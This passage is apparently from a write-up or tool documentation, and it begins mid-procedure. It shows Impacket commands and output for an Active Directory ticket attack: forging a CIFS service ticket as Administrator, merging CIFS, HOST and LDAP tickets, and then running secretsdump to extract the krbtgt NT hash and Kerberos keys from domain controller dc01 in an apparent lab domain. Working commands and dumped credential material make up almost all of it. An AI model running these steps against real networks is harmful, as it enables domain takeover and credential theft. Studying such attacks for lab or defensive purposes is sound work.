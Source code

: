 ```bash

$ mv Administrator.ccache Administrator-HOST.ccache
$ KRB5CCNAME=$(pwd)/Administrator-TGT.ccache getST.py runeterra.local/Administrator -k -no-pass -spn CIFS/dc01
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting ST for user
[*] Saving ticket in Administrator.ccache

$ mv Administrator.ccache Administrator-CIFS.ccache
```

3. Merge the tickets.

```bash
$ /opt/impacket/examples/mergeTicket.py Administrator-CIFS.ccache Administrator-HOST.ccache Administrator-LDAP.ccache -o Administrator-MULT.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] User Name                     : Administrator
[*] Hostname                      : dc01
[*] Service Of Ticket 1           : CIFS
[*] Service Of Ticket 2           : HOST
[*] Service Of Ticket 3           : LDAP
[*] Writing to output file: Administrator-MULT.ccache
[*] Done!
```

Then run secretsdump (ldap) and wmiexec (cifs and host):

```bash
$ KRB5CCNAME=$(pwd)/Administrator-MULT.ccache secretsdump.py runeterra.local/Administrator@dc01 -k -no-pass -debug -just-dc-user krbtgt
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/eljay/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for krbtgt 
[+] Calling DRSGetNCChanges for {78716127-1372-498f-a077-2b2bb223b438} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=Runeterra,DC=local
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9aa143f112ca59f64ef9ee228d0b1756:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9fc4adf5d76a2bf807132aebcb4ca467fcadaed1fee26e2b8b42ac63adc5f2bf
krbtgt:aes128-cts-hmac-sha1-96:b8f04af06ad169d76551a0de5e73a071
krbtgt:des-cbc-md5:8c5b3bf88c91da07
[*] Cleaning up...
```

